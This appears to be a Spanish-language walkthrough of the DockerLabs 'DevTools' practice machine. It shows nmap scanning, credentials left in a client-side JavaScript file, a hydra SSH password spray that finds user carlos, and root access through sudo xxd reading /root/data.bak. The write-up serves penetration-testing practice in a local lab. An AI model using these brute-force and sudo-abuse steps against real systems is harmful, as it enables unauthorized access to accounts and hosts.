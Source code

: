 # DevTools DockerLabs (intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip devtools.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh devtools.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 11:48 EST
Nmap scan report for asucar.dl (172.17.0.2)
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
|_  256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Si entramos en la pagina nos pedira usuario y contraseña de la pagina, por lo que en algun lugar tendra que haber las credenciales en algun `js`, si inspeccionamos la pagina, veremos la siguiente linea:

```html
<script src="backupp.js" defer></script>
```

Si entramos en ese archivo, veremos lo siguiente:

```js
const usuario = "chocolate";
const contrasena = "chocolate"; // Antigua contraseÃ±a baluleroh

const solicitarAutenticacion = () => {
    const credenciales = prompt("Ingrese las credenciales en el formato usuario:contraseÃ±a:");

    if (credenciales) {
        const [entradaUsuario, entradaContrasena] = credenciales.split(":");

        if (entradaUsuario === usuario && entradaContrasena === contrasena) {
            alert("AutenticaciÃ³n exitosa. Â¡Bienvenido!");
        } else {
            alert("AutenticaciÃ³n fallida. IntÃ©ntelo de nuevo.");
            solicitarAutenticacion(); // Reintentar autenticaciÃ³n
        }
    } else {
        alert("Debe ingresar las credenciales.");
        solicitarAutenticacion();
    }
};

solicitarAutenticacion();
```

Veremos un comentario de que su antigua contraseña era `baluleroh`, por lo que para descartar posibles credenciales, pondremos como usuario y contraseña:

```
User: chocolate
Pass: chocolate
```

Por `ssh` de la siguiente forma:

```shell
ssh chocolate@<IP>
```

Metemos como contraseña `chocolate`, pero vemos que no nos funciona, si probamos la antigua contraseña `baluleroh` tampoco nos deja, por lo que tendremos que descubrir que usuario le pertenece dicha contraseña `baluleroh`:

## Escalate user carlos

```shell
hydra -L <WORDLIST> -p baluleroh ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-16 12:17:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: baluleroh
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Sacamos las credenciales del usuario `carlos`, por lo que nos conectamos por `ssh`:

```shell
ssh carlos@<IP>
```

Metemos la contraseña `baluleroh` y ya estariamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for carlos on fb5c64da956d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User carlos may run the following commands on fb5c64da956d:
    (ALL) NOPASSWD: /usr/bin/ping
    (ALL) NOPASSWD: /usr/bin/xxd
```

Y si leemos el archivo llamado `nota.txt` que esta en la `home` de nuestro usuario, veremos lo siguiente:

```
Backup en data.bak dentro del directorio de root
```

Por lo que podremos hacer lo siguiente como `root` para poder leer ese archivo:

```shell
LFILE=/root/data.bak
sudo xxd "$LFILE" | xxd -r
```

Info:

```
root:balulerito
```

Por lo que ya tendremos las credenciales de `root` solo tendremos que hacer lo siguiente:

```shell
su root
```

Metemos la contraseña `balulerito` y seremos `root`, por lo que ya habremos terminado.
